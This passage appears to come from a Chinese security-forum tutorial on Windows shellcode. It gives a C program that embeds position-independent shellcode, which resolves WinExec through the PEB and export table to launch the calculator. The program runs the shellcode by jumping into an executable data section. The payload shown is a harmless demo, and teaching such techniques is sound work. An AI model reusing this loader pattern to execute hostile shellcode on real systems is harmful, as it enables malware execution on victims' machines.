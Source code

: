 ![image-20211201162917177](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-0c02f7edc13d25a6145b14a1e4b250ef58d1c41c.png)

F8一路执行下去，直到调用WinExec，然后弹出计算器。

![image-20220206235036516](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-4cc1bfd1ab728f584897d665c8a898a3aac88802.png)

当然我们也可以直接C语言写一个直接执行ShellCode的简单程序。

```c
#pragma comment(linker, "/section:.data,RWE")

unsigned char shellcode[] = "\x64\x8B\x1D\x30\x00\x00\x00"
"\x8B\x5B\x0C"
"\x8B\x5B\x14"
"\x8B\x1B"
"\x8B\x1B"
"\x8B\x5B\x10"
"\x8B\x53\x3C"
"\x03\xD3"
"\x8B\x52\x78"
"\x03\xD3"
"\x33\xC9"
"\x49"
"\x8B\x72\x20"
"\x03\xF3"
"\x41"
"\xAD"
"\x03\xC3"
"\x81\x38\x57\x69\x6E\x45"
"\x75\xF4"
"\x81\x78\x04\x78\x65\x63\x00"
"\x75\xEB"
"\x8B\x72\x24"
"\x03\xF3"
"\x66\x8B\x0C\x4E"
"\x8B\x72\x1C"
"\x03\xF3"
"\x8B\x14\x8E"
"\x03\xD3"
"\x33\xDB"
"\x53"
"\x68\x2E\x65\x78\x65"
"\x68\x63\x61\x6C\x63"
"\x8B\xF4"
"\x6A\x0A"
"\x56"
"\xFF\xD2"
"\x83\xC4\x12";

void main() {
    _asm {
        mov eax, offset shellcode;
        jmp eax;
    }
}
```
